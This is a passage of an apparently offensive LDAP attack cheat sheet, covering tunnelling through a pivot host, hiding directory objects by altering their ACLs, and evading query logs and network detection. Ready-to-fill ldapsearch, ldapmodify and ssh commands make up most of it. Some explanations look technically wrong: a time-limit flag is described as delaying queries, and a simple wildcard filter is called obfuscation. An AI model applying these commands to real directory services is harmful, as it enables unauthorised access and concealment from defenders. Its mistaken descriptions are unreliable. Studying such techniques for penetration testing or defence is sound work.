 #### 13.3 LDAP-Based Tunneling and Pivoting
- **Create LDAP Tunnel for Pivoting**: Establishes an SSH tunnel to forward LDAP traffic through a pivot host, enabling the attacker to reach otherwise inaccessible LDAP services.
  ```bash
  ssh -L 389:<target_ip>:389 <attacker_ip>
  ```

## 14. LDAP-Specific Defense Evasion Techniques

#### 14.1 Hiding LDAP Objects with ACL Manipulation
- **Hide Objects by Modifying ACLs**: Alters the ACLs (Access Control Lists) of LDAP objects to hide them from standard queries, making them accessible only to specific users or groups.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<object_to_hide>,DC=domain,DC=com
  changetype: modify
  add: nTSecurityDescriptor
  nTSecurityDescriptor:: <encoded_acl>
  EOF
  ```

#### 14.2 Evading LDAP Query Logs
- **Obfuscate LDAP Queries**: Obfuscates LDAP queries by combining multiple filters and wildcard searches, potentially bypassing simple detection mechanisms in query logs.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(&(objectClass=user)(|(cn=admin*)))"
  ```

#### 14.3 Time-Based LDAP Evasion
- **Delay LDAP Queries**: Uses the `-l` (time limit) option to delay LDAP queries, making them less likely to trigger real-time alerts or logs.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" -o ldif-wrap=no -l 10 "(objectClass=user)"
  ```

#### 14.4 LDAP Query Encryption and Evasion
- **Use LDAPS for Encrypted Queries**: Queries the LDAP directory using LDAPS (LDAP over SSL), ensuring that queries and responses are encrypted to evade network-based detection.
  ```bash
  ldapsearch -x -H ldaps://<target_ip> -b "DC=domain,DC=com" "(objectClass=*)"
  ```

## 15. Advanced LDAP Pivoting Techniques

#### 15.1 Pivoting via LDAP Referral Chaining
- **Referral Chaining Pivot**: Uses LDAP referral chaining to pivot across linked LDAP directories, potentially reaching additional domains or directories indirectly.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(objectClass=referral)"
  ```
